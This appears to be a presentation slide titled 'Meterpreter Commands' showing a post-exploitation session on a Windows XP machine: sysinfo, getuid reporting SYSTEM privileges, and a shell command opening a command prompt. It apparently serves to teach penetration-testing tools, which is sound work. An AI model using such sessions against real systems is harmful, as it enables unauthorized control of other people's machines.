

# Meterpreter Commands
meterpreter > sysinfo
System Language : en_US
OS              : Windows XP (Build 2600, Service Pack 2).
Computer        : AGABRIEL-B90B23
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 396 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>